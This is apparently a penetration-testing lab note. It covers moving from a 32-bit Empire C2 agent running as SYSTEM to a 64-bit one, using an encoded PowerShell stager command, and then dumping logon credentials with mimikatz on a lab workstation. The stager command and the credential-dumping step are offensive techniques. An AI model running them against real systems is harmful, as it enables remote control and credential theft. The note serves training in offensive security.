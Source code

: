 #### Tags: [[06 - Privilege Escalation (TA0004)]] [[Empire C2]]

## Overview 
- Goal: Use our elevated agent gained by exploiting [[Unquoted Service Path Enum & Exploitation|Unquoted Service Path]] to pull password hashes using mimikatz. 

### Operating via Agent or PowerShell
Always check for the following:
1. Integrity - High
2. Running as - System
3. Arch / Bit - 32 Bit will show as x86 Architecture or 64 Bit PowerShell Process

This is due to the fact that the binary we compiled with PowerUp is only 32-bit and there is not a 64-bit option.
- If we run mimikatz with this agent, it will fail due to the architecture mismatch. In fact, many of the modules will not function properly with this 32-bit agent. 

### PowerShell Process
On 64-bit Windows, the System32 folder holds the 64-bit binaries and the SysWOW64 folder holds the 32-bit binaries. Remember that WOW64 stands for "Windows 32-bit on Windows 64-bit"

`32-bit (x86) PowerShell is located at %SystemRoot%\SysWOW64\WindowsPowerShell\v1.0\powershell.exe

`64-bit (x64) PowerShell is located at %SystemRoot%\system32\WindowsPowerShell\v1.0\powershell.exe

Note: We cannot spawn a 64 bit PS from a 32 bit agent. To spawn a new process / agent:
`C:\Windows\Sysnative\WindowsPowerShell\v1.0\powershell.exe -noP -sta -w 1 -enc  <ENCODED_PART_OF_STAGER>`
- Observe, we now have a new agent that is a 64-bit process running as SYSTEM!

![[Pasted image 20240331023805.png]]
## Exploitation 
Interact with your new 64-bit agent, select `powershell/credentials/mimikatz/logonpasswords` from the Execute Module drop down list. Then click the SUBMIT button.
- `mimikatz(powershell) # sekurlsa::logonpasswords`

![[Pasted image 20240331023854.png]]

## Conclusion
In this lab we took advantage of our foothold on wk01.draconem.io. 
- First, we had to make sure it was safe to operate. We used Seatbelt to pull a lot of information from the system, we reviewed the results and didn't notice anything particularly risky to our engagement.
- Then we continued host-based discovery in search of Privilege Escalation opportunities with PowerUp. 
- Once we found the unquoted service path we had to jump through a few hoops to take advantage of it. 
- In the end we were able to elevate to SYSTEM and we dumped password hashes! Now we have a new password hash for the user Wesley.Thurner.